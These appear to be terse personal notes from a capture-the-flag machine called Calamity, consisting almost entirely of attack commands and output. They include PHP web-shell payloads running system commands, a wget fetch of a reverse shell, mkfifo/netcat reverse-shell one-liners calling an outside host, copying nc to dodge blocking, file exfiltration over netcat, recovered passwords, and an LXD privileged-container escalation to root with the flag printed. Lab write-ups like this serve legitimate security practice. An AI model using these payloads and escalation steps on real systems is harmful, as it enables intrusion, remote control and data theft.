**By: curl -v http://10.10.10.27/admin.php  
Account find:  
admin   
skoupidotenekes**  
**For POC:**   
```shell
<?php system('ls -lah') ?>
Permission denied:
<?php exec('wget http://10.10.14.11/revshell.php') ?>
```
**Try but fail by VM setting:**
```shell
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1234 >/tmp/f') ?>
Check useful information:
<?php system('ls -lah /home/xalvas') ?>
<?php system('cat /home/xalvas/intrusions') ?> 
```
**COPY nc Method:**
```shell
<?php system('which nc') ?>

<?php system('cp /bin/nc /dev/shm/harmless') ?> 
<?php system('chmod +x /dev/shm/harmless') ?>
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/dev/shm/harmless 10.10.14.11 1234 >/tmp/f') ?>
```
Try copy out to listen(TBC as CTF style):
--------------------------------------------------------
```shell
/home/xalvas/recov.wav -> recov.wav

As nc blocked,
cp /bin/nc ~/nba
Kali: nc  -l -p 9090 > recov.wav
Remote:./nba -w3 10.10.14.11 9090 < recov.wav
```
--------------------------------------------------------

Then know "xalvas" password and login SSH:
18547936..*
Kail:
```shell
git clone https://github.com/saghul/lxd-alpine-builder.git
./build-alpine -a i686
```
SCP via SSH:
scp alpine-v3.9-i386-20190523_1714.tar.gz  xalvas@10.10.10.27:/tmp/
18547936..*

Calamity:
```shell
xalvas@calamity:/tmp$ lxc image import alpine-v3.9-i386-20190523_1714.tar.gz --alias alpine
Image imported with fingerprint: 8e6c7cb2b5f1d8c52d8a4912c485984414a2e6954ce46c7f08b6a4e99caae6aa

xalvas@calamity:/tmp$ lxc init alpine alexcold -c security.privileged=true
Creating alexcold

xalvas@calamity:/tmp$ lxc config device add alexcold somedisk disk source=/ path=/mnt/root recursive=true
Device somedisk added to alexcold

Then start the docker:
xalvas@calamity:/tmp$ lxc start alexcold

xalvas@calamity:/tmp$ lxc exec alexcold --mode=interactive /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # ls -la
total 12
drwx------    2 root     root          4096 May 23 09:36 .
drwxr-xr-x   19 root     root          4096 May 23 09:34 ..
-rw-------    1 root     root            10 May 23 09:36 .ash_history
~ # cd /mnt/root/root
/mnt/root/root # ls
peda      root.txt  scr
/mnt/root/root # cat root.txt
9be653e014d17d1a54f9045e3220743c
```
